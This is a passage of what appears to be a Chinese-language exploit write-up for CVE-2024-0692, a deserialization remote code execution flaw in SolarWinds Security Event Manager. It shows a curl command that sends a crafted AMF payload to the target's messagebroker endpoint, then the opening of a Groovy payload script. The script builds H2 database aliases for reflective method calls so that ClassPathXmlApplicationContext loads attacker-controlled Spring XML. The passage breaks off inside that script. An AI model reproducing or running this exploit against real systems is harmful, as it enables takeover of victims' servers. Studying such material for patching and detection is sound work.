 curl 发送 amf payload

```plain
curl https://192.168.30.131:8443/services/messagebroker/streamingamf -k -H "Content-Type: application/amf" --data-binary @payload.amf --output -
```

[![](assets/1709614880-1189a1383db64eea3e5b9832268dc818.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304191557-92d87848-da18-1.png)

### ClassPathXmlApplicationContext

payload (Groovy)

```plain
import map.jndi.server.WebServer

import javax.naming.Reference
import javax.naming.StringRefAddr

// SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692)
// instantiate ClassPathXmlApplicationContext

def list = []

// drop the previous alias if exists
list << "DROP ALIAS IF EXISTS INVOKE_CONSTRUCTOR"
list << "DROP ALIAS IF EXISTS INVOKE_METHOD"
list << "DROP ALIAS IF EXISTS URI_CREATE";
list << "DROP ALIAS IF EXISTS CLASS_FOR_NAME"

// alias some external Java methods
list << "CREATE ALIAS INVOKE_CONSTRUCTOR FOR 'org.apache.commons.beanutils.ConstructorUtils.invokeConstructor(java.lang.Class, java.lang.Object)'"
list << "CREATE ALIAS INVOKE_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS URI_CREATE FOR 'java.net.URI.create(java.lang.String)'"
list << "CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)'"

// Spring XML content
def content = '''<?xml version="1.0" encoding="UTF-8" ?>
```